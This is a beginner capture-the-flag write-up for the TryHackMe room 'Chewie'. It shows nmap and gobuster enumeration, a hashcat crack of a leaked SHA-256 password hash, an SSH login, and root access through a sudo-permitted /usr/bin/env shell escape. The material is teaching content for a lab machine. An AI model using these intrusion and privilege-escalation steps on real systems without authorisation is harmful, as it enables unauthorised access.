 ```yaml
---
title: Chewie Writeup [TryHackMe]
published: true
---
```


# [](#header)Intro

This is actually my first ever VM i created and i hope it was an enjoyable machine for all of you to try :DD.

I design this room to be easy for beginners and more importantly i hope all of you enjoy.

Okay let's just get into hacking!!

<a href="https://tryhackme.com/room/chewie">
Link to the room
</a>

# [](#header)Enumeration

We start with nmap scan :

### nmap -sC -sV 10.10.238.69

- -sC : Equivalent to --script=default
- -sV : Probe open ports to determine service/version info

```bash

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 09:41 WIB
Nmap scan report for 10.10.238.69
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:11:1e:54:86:a6:fc:76:3a:58:cf:34:95:1b:03:de (RSA)
|   256 a9:d0:aa:7f:9d:da:5c:1b:be:1f:03:ed:80:e6:1c:f9 (ECDSA)
|_  256 93:56:b3:e7:21:fa:32:f0:04:49:75:4f:61:0c:68:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Chewwie
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.34 seconds

```

We only have 2 ports open: 80 for Apache and 22 for SSH.

Visiting the webserver we get the following page:

<img src="{{ site.baseurl }}/assets/images/chewie_thm/web_page.png">

We can try to do directory scan with gobuster and add txt extension:

### gobuster dir -u http://10.10.238.69/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt

- dir : Uses directory/file brutceforcing mode
- -w : Path to the wordlist
- -u : To specify the url

```bash

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.69/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/06/18 09:45:16 Starting gobuster
===============================================================
/images (Status: 301)
/notes.txt (Status: 200)
Progress: 5045 / 220561 (2.29%)
```

We found `notes.txt` and inside we found a username and password for ssh.

<img src="{{ site.baseurl }}/assets/images/chewie_thm/note.png">

But the password was hashed and we have to crack it. There's a lot of ways of cracking password, but here i will use hashcat to crack the hash:

### hashcat -a 0 -m 1400 '5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0' /opt/wordlist/rockyou.txt

- -a : --attack-mode (0 for Straight mode)
- -m : --hash-type (1400 for sha256)

```bash
Dictionary cache hit:
* Filename..: /opt/wordlist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0:password101

Session..........: hashcat
Status...........: Cracked
Hash.Type........: SHA2-256
Hash.Target......: 5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b...8ac4f0
Time.Started.....: Tue Jun 16 18:39:43 2020 (1 sec)
Time.Estimated...: Tue Jun 16 18:39:44 2020 (0 secs)
Guess.Base.......: File (/opt/wordlist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    76479 H/s (3.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 20480/14344385 (0.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: michael! -> 280789

Started: Tue Jun 16 18:39:01 2020
Stopped: Tue Jun 16 18:39:46 2020
```

A few minutes later the password was CRACKED!!

After that we can ssh to the machine with the user we found and the password we crack:

!<img src="{{ site.baseurl }}/assets/images/chewie_thm/ssh.png">

We can finally capture the user.txt in current directory:

<img src="{{ site.baseurl }}/assets/images/chewie_thm/user.png">

For the root flag, first we can use the command `sudo -l` for listing user's privileges or check a specific command:

```bash
lia@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for lia on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lia may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: /usr/bin/env
```

We can run `/usr/bin/env` as sudo. We can abuse that command to gain privilege as root by typing
<br> `sudo /usr/bin/env /bin/sh` and that's it! We are root :

<img src="{{ site.baseurl }}/assets/images/chewie_thm/esc_root.png">

We can finally capture the root.txt in /root directory:

<img src="{{ site.baseurl }}/assets/images/chewie_thm/root.png">

And that's it! We root the machine. Hope you guys enjoy reading this writeup.
Thank You :DD

